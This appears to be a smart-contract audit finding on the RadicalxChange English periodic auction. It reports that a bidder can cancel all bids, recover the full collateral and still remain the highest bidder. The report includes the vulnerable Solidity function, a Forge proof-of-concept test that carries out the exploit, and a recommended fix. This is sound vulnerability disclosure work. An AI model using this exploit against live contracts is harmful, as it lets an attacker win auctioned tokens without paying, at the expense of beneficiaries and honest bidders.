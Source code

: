 Boxy Burlap Opossum

high

# Bidders can cancel their own bid when they are the highest bidder

## Summary

A bidder can bid on an auction and then cancel their bid via EnglishPeriodicAuctionFacet.cancelAllBidsAndWithdrawCollateral(). This results in the bidder receiving their full collateral back and still maintain the highest bid.

## Vulnerability Detail

The core of this issue resides in the _cancelAllBids() function which is called by EnglishPeriodicAuctionFacet.cancelAllBidsAndWithdrawCollateral() which does not include a check that the canceller is cancelling the highest bidder:

```solidity
function _cancelAllBids(uint256 tokenId, address bidder) internal {
    EnglishPeriodicAuctionStorage.Layout
        storage l = EnglishPeriodicAuctionStorage.layout();

    uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

   // AUDIT: no checks that the canceller is the highest bidder

    for (uint256 i = 0; i <= currentAuctionRound; i++) {
        Bid storage bid = l.bids[tokenId][i][bidder];

        if (bid.collateralAmount > 0) {
            // Make collateral available to withdraw
            l.availableCollateral[bidder] += bid.collateralAmount;

            // Reset collateral and bid
            bid.collateralAmount = 0;
            bid.bidAmount = 0;
        }
    }
}
```

Since there is no check that the bidder is the highest bidder, the bidder can cancel their bid and maintain the highest bidder position. 

A forge test below shows this exploit in action:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../contracts/auction/facets/EnglishPeriodicAuctionFacet.sol";
import "../contracts/auction/IEnglishPeriodicAuctionInternal.sol";
import "../contracts/allowlist/facets/AllowListFacet.sol";
import "../contracts/license/IStewardLicense.sol";
import "../contracts/allowlist/IAllowlistReadable.sol";
import "../contracts/pco/IPeriodicPCOParamsReadable.sol";
import "../contracts/beneficiary/IBeneficiary.sol"; 

contract EnglishPeriodicAuctionTest is Test {
  EnglishPeriodicAuctionFacet auction;

  address bidder = address(0x07);
  uint tokenId = 1;
  uint licensePeriod = 1000;

  function setUp() public {
    auction = new EnglishPeriodicAuctionFacet();
    auction.initializeAuction(
      address(0), // repossessor
      address(0), // initialBidder
      0, // initialPeriodStartTime
      0, // initialPeriodStartTimeOffset
      1 ether, // startingBid
      1 days, // auctionLengthSeconds
      0.01 ether, // minBidIncrement
      15 minutes, // bidExtensionWindowLengthSeconds
      5 minutes // bidExtensionSeconds
    );

    
    // allow bidder to make calls
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IAllowlistReadable.isAllowed.selector), 
      abi.encode(true)
    );

    // IStewardLicense(address(this)).exists(tokenId)
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IStewardLicense.exists.selector), 
      abi.encode(tokenId)
    );

    // IPeriodicPCOParamsReadable(address(this)).licensePeriod();
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IPeriodicPCOParamsReadable.licensePeriod.selector),
      abi.encode(licensePeriod)
    );

    // IStewardLicense(address(this)).triggerTransfer
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IStewardLicense.triggerTransfer.selector),
      abi.encode()
    );

    // IStewardLicense(address(this)).ownerOf(tokenId);
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IERC721.ownerOf.selector),
      abi.encode(address(0))
    );

    // IBeneficiary(address(this)).distribute
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IBeneficiary.distribute.selector),
      abi.encode()
    );

    // IPeriodicPCOParamsReadable(address(this)).feeNumerator();
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IPeriodicPCOParamsReadable.feeNumerator.selector),
      abi.encode(1)
    );

    // IPeriodicPCOParamsReadable(address(this)).feeDenominator();
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IPeriodicPCOParamsReadable.feeDenominator.selector),
      abi.encode(10)
    );

    // IStewardLicense(address(this)).maxTokenCount()
    vm.mockCall(
      address(auction), 
      abi.encodeWithSelector(IStewardLicense.maxTokenCount.selector),
      abi.encode(1e18)
    );
  }

  function testCancelHighestBid() public {
    deal(bidder, 1000e18);

    vm.startPrank(bidder);
    uint balanceBefore = bidder.balance;
    uint bidAmount = 100e18 - 1;
    uint feeAmount = auction.calculateFeeFromBid(bidAmount);

    auction.placeBid{value: bidAmount + feeAmount}(tokenId, bidAmount);
    auction.cancelAllBidsAndWithdrawCollateral(tokenId);
    uint balanceAfter = bidder.balance;

    console.log("any change in balance", balanceAfter - balanceBefore);

    (
      IEnglishPeriodicAuctionInternal.Bid memory highestBid
    ) = auction.highestBid(tokenId);

    assertEq(bidder, highestBid.bidder);
    vm.warp(block.timestamp + 1e18);

    auction.closeAuction(tokenId);
  }
}
```

## Impact

Bidders can win an auction without paying for the token.

## Code Snippet

https://github.com/sherlock-audit/2024-02-radicalxchange/blob/main/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol?plain=1#L416-L434

https://github.com/sherlock-audit/2024-02-radicalxchange/blob/main/pco-art/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L187-L190


## Tool used

Manual Review

## Recommendation

Add a validation check to see if the canceller is the current highest bidder. If they are the highest bidder for the token's current auction, skip that bid.
